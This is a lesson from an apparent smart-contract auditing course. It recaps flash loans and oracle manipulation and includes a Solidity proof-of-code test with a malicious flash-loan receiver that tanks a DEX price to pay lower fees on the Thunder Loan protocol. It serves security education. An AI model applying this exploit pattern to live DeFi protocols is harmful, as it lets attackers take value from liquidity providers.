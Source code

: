 ```yaml
---
title: Oracle Manipulation Recap
---
```


_Follow along with the video lesson:_

---

### Oracle Manipulation Recap

Alright! Let's review everything up to this point, starting from the top.

### Arbitrage

Arbitrage is the process by which a profit can be made by identifying a price discrepancy of an asset across two exchanges and buying from one then selling on the other. Through this process the asset price becomes normalized across listings.

This is one of the primary use cases of flash loans.

::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap1.png' style='width: 100%; height: auto;'}

### Flash Loans

A Flash Loan is a loan which lasts for a single transaction. It allows any user to borrow a large number of funds without posting collateral by paying a small fee.

The catch, of course, is that the loan must be repaid in the same transaction in which it is borrowed. If it isn't, the transaction will revert.

The fees collected from flash loans serve as incentive for those supplying liquidity to the flash loan protocol.

In the case of a recognized price discrepancy, this means any user would be able to take greater advantage of the arbitrage opportunity and the greatest profits aren't reserved for whales or those with the most money.

::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap2.png' style='width: 100%; height: auto;'}

### Oracle Manipulation

Finally, we covered how flash loans and the impact they have on Dex prices of assets can actually be a vulnerability to protocols relying on those Dexs as price oracles.

Flash Loans have the potential of drastically altering the ratio based pricing of asset pairs on Dexs by affording a user the ability to swap huge numbers of a token and tanking it's price - for that transaction.

The practical offshoot of this is that any protocol that reads from that Dex is going to trust this inaccurate, temporary price, leaving itself open to exploitation or unfavorable transactions.

### Thunder Loan Oracle Manipulation

We illustrated that the Thunder Loan protocol was vulnerable to this exact exploit, and we did so with a _very_ thorough proof of code.

It was shown that by flash loaning and swapping on TSwap, an attacker could drastically reduce the cost of the fees to be paid, resulting in a medium severity finding!

<details>
<summary>Oracle Manipulation PoC</summary>

**Proof of Concept:** The following all happens in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper.

```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

Add the following to ThunderLoanTest.t.sol.

<details>
<summary>Proof of Code:</summary>

```js
function testOracleManipulation() public {
    // 1. Setup contracts
    thunderLoan = new ThunderLoan();
    tokenA = new ERC20Mock();
    proxy = new ERC1967Proxy(address(thunderLoan), "");
    BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
    // Create a TSwap Dex between WETH/ TokenA and initialize Thunder Loan
    address tswapPool = pf.createPool(address(tokenA));
    thunderLoan = ThunderLoan(address(proxy));
    thunderLoan.initialize(address(pf));

    // 2. Fund TSwap
    vm.startPrank(liquidityProvider);
    tokenA.mint(liquidityProvider, 100e18);
    tokenA.approve(address(tswapPool), 100e18);
    weth.mint(liquidityProvider, 100e18);
    weth.approve(address(tswapPool), 100e18);
    BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
    vm.stopPrank();

    // 3. Fund ThunderLoan
    vm.prank(thunderLoan.owner());
    thunderLoan.setAllowedToken(tokenA, true);
    vm.startPrank(liquidityProvider);
    tokenA.mint(liquidityProvider, 100e18);
    tokenA.approve(address(thunderLoan), 100e18);
    thunderLoan.deposit(tokenA, 100e18);
    vm.stopPrank();

    uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
    console2.log("Normal Fee is:", normalFeeCost);

    // 4. Execute 2 Flash Loans
    uint256 amountToBorrow = 50e18;
    MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
        address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
    );

    vm.startPrank(user);
    tokenA.mint(address(flr), 100e18);
    thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, ""); // the executeOperation function of flr will
        // actually call flashloan a second time.
    vm.stopPrank();

    uint256 attackFee = flr.feeOne() + flr.feeTwo();
    console2.log("Attack Fee is:", attackFee);
    assert(attackFee < normalFeeCost);
}

contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    // 1. Swap TokenA borrowed for WETH
    // 2. Take out a second flash loan to compare fees
    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        if (!attacked) {
            feeOne = fee;
            attacked = true;
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tswapPool), 50e18);
            // Tanks the price:
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // Second Flash Loan!
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");
            // We repay the flash loan via transfer since the repay function won't let us!
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            // calculate the fee and repay
            feeTwo = fee;
            // We repay the flash loan via transfer since the repay function won't let us!
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}
```

</details>

</details>


::image{src='/security-section-6/41-oracle-manipulation-recap/oracle-manipulation-recap3.png' style='width: 100%; height: auto;'}

This section was heavy. Now's a great time to take a break before continuing on.

We're nearly there.
